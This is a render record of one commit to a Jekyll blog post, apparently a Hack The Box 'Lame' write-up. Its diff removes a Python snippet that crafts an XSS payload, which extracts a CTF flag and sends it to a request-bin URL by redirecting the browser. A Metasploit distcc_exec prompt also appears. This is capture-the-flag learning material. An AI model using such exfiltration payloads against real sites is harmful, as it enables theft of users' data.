

Before and after one commit to notbricey/brisee.github.io, a Jekyll site: the page built from _posts/2021-05-25-htb-lame.md, in a window 1280 px wide and 900 px high, scrolled down 20536 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 21072 px from its top, so only the background shows below that.

Commit message:
Update 2021-05-25-htb-lame.md

````diff
--- a/_posts/2021-05-25-htb-lame.md
+++ b/_posts/2021-05-25-htb-lame.md
@@ -741,18 +741,3 @@ msf6 exploit(unix/misc/distcc_exec) > exploit
 ```
 
 And... Nothing as well. Seems like SMB was the path to get to root for this box. Overall was a pretty fun box to exploit manually!
-
-```python
-def get_flag(request_bin):
-    # Prepare the payload to send a GET request
-    xml_http_request = 'var xmlHttp = new XMLHttpRequest();xmlHttp.open(\\"GET\\",\\"/alien\\",false);xmlHttp.send();'
-
-    # Extracting the flag
-    xml_http_flag = 'let flag = xmlHttp.responseText.substring((xmlHttp.responseText).search(\\"CHTB{\\"),(xmlHttp.responseText).search(\\"}\\")+1);'
-
-    # Crafting the exfiltration url
-    exfil_request = xml_http_flag + 'document.location=\\"' + request_bin + '\\" + flag'
-
-    # Submitting the payload
-    execute_xss(xml_http_request + exfil_request)
-```
````
